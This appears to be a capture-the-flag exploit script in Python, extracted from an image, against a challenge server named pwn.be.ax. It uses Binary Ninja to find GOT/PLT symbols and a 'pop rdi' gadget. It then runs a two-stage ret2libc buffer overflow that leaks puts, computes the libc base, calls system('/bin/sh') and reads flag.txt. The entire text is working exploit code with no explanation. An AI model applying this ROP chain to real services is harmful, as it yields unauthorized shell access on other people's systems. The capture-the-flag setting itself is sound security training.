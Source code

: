 ```py

# EXPLOITATION
p64 = lambda x: struct.pack("<Q",x)
u64 = lambda x: struct.unpack("<Q",x.ljust(8,b"\x00"))[0]

def read_info():
    for _ in range(stdout_len):
        io.recv(1)

def readline(end=b"\n"):
    found_newline = False
    line = b""
    while not found_newline:
        r = io.recv(1)
        line+=r
        if r == end:
            found_newline = True
    return line
got = {x.name:x.address for x in bv.get_symbols_of_type(SymbolType.ImportAddressSymbol)}
plt = {x.name:x.address for x in bv.get_symbols_of_type(SymbolType.ImportedFunctionSymbol)}

pop_rdi = bv.find_next_text(bv.start,"r15 = pop",graph_type=FunctionGraphType.LowLevelILFunctionGraph)+1
ret = pop_rdi + 1

host,port = "pwn.be.ax",5000
io = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
io.connect((host,port))

payload  = b""
payload += b"A"*abs(offset)
payload += p64(pop_rdi)
payload += p64(got['puts'])
payload += p64(plt['puts'])
payload += p64(main.start)

read_info()
io.send(payload+b"\n")
readline()
puts_leak = u64(io.recv(6))
print("Puts:", hex(puts_leak))

libc = BinaryViewType.get_view_of_file("./libc.so.6",update_analysis=False)
libc = libc.rebase(puts_leak - libc.symbols['puts'][0].address,force=True)
print("Libc Base:", hex(libc.start))

bin_sh = libc.find_next_data(libc.start,"/bin/sh")

io.recv(1)
read_info()

payload2  = b""
payload2 += b"A"*abs(offset)
payload2 += p64(ret)
payload2 += p64(pop_rdi)
payload2 += p64(bin_sh)
payload2 += p64(libc.symbols['system'][0].address)

io.send(payload2+b"\n")
io.send(b"cat flag.txt\n")
readline()
print(readline(b"}"))
```